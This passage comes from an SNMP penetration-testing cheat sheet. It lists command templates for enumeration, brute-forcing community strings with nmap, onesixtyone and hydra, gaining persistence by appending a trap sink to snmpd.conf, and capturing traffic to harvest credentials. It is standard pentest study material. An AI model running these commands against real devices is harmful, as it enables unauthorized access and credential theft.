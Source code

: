 #### SNMP Enumeration

*   **Tool:** \[\[SNMPWalk]]

    ```bash
    snmpwalk -v <snmp_version> -c <community_string> <target_ip>
    ```
* **Description:** Enumerates the SNMP service to gather detailed information about the target device.

#### Community String Brute Force

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 161 -sU --script=snmp-brute 
    ```

\


*   **Tool:** \[\[OneSixtyOne]]

    ```bash
    onesixtyone -c <path/to/wordlist> <target_ip>
    ```

    \

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra -P /path/to/wordlist.txt snmp://<target_ip>
    ```
* **Description:** Attempt to brute force SNMP community strings, potentially gaining control over SNMP trap configurations.

### Persistence

#### Configuring Persistent SNMP Traps

*   **Tool:** \[\[SNMPTrap]]

    ```bash
    echo "trap2sink <manager_ip> <community_string>" >> /etc/snmp/snmpd.conf
    ```
* **Description:** Adds a persistent configuration to send traps to a specific manager.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "udp port 162"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

